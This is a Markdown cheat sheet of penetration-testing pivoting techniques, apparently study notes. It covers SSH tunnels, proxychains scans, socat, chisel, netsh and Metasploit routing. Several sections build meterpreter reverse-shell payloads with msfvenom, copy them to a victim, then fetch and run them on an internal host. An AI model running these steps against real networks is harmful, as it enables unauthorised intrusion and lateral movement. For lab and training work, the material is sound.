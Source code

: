 # Pivoting

## SSH

### Port forwarding

```bash
kali@attacker$ ssh root@victim -L 127.0.0.1:4444:other_host:5432 -N
kali@attacker$ ssh root@victim -R victim:4444:attacker:5555 -N
root@victim$ ssh kali@attacker -R 127.0.0.1:4444:other_host:5432 -N
```

### Proxy SOCKS

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Proxy SOCKS with MSF

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

### Pivoting from Victim

#### Scanning network 

 * From bash: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
 * From MSF: `msf6 exploit(multi/handler) >  run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24`

#### Nmap scan:

##### Open SOCKS Proxy

From MSF (outside session)
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```

##### Routing to our VM

To tell our socks_proxy module to route all the traffic via our Meterpreter session, we can use the post/multi/manage/autoroute module.
Then, we route all traffic through proxychains.

Before autoroute on **Victim**:

```bash
$ route -n

```

From MSF (outside meterpreter session)
```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> use post/multi/manage/autoroute
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SUBNET 172.16.5.0
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> run
```

After autoroute on **Victim**:
```bash
$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    0      0        0 ens192
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
172.16.4.0      0.0.0.0         255.255.254.0   U     0      0        0 ens224
```

##### Nmap scan with proxychains

```bash
$ tail /etc/proxychains4.conf 
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Ports forwarding

##### Local => Victim => Other Host

Useful to interact with a local post and use local tools.

 * Listen to the port 3300 on **Attacker**
 * Forward all packets to **victim:8080**

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -l 3300 -p 8080 -r victim
```

Interact with service
```bash
$ curl http://localhost:8080/
```

##### Other Host => Victim => Local

Useful to get reverse shell to connect to local meterpreter

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -R -l 8081 -p 1234 -L Attacker
```

A server is started on **victim**:
```
$ netstat -antop | grep 1234
tcp6       0      0 :::1234                 :::*                    LISTEN      1784/backupjob       off (0.00/0/0)
```

On **Attacker**, craft reverse meterpreter which connect to **victim**, upload and execute it onn **other_host**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=victim -f exe -o backupscript.exe LPORT=1234
````

On **Attacker** :
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8081
msf6 exploit(multi/handler) > run
```

## Port forwarding with SOCAT

### Local => Victim => Other Host

On **victim**:
```bash
$ socat TCP4-LISTEN:8080,fork TCP4:other_host:8443
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

###  Other Host => Victim => Local

Reverse tunneling from other_host to attacker through victim

On **victim**:
```bash
$ socat TCP4-LISTEN:1234,fork TCP4:attacker:8081
$ netstat -antop | grep socat
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      4207/socat           off (0.00/0/0)
```

## Other tools

 - plink : `plink -ssh -D 9050 ubuntu@10.129.15.50`
 - sshuttle: `sudo sshuttle -r root@victim "subnet other host"/23 -v`
 - rpivot
 - DNS Tunneling: dnscat2
 - ICMP Tunneling: ptunnel-ng

### chisel

On **attacker**
```
$ chisel server -v --socks5 --reverse --port 5036
$ tail /etc/proxychains4.conf                        
[ProxyList]
socks5  127.0.0.1 5136
```

On **Victim**:
```bash
$ chisel client 172.22.0.36:5036 R:5136:socks
```

After connection from chisel **Victim**, on **attacker**:
```bash
$ sudo netstat -antop | grep chisel
tcp        0      0 127.0.0.1:5136          0.0.0.0:*               LISTEN      1449854/./chisel_1.  off (0.00/0/0)
```

**Port forwarding avec Chisel**:

On **attacker**: `$ chisel server -v --reverse --port 5036`
 
 - Local => Victim => Other Host : `./chisel client attacker:5036 :8003:Other_Host:8004`, server run on 8004 on **other host**, `curl victim:8003` on attacker
 - Local <= Victim => Other Host (defeat firewall) :  `./chisel client attacker:5036 R:8003:victim:8004`, other host connect on 8004, `curl 127.0.0.1:8003`on attacker
 - Other Host => Victim => Local : `./chisel client attacker:5036 :8003:victim:8004`, other host connect on 8004, `nc -lvnp 8003`on attacker

### netsh

On Windows **Victim**:
```
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
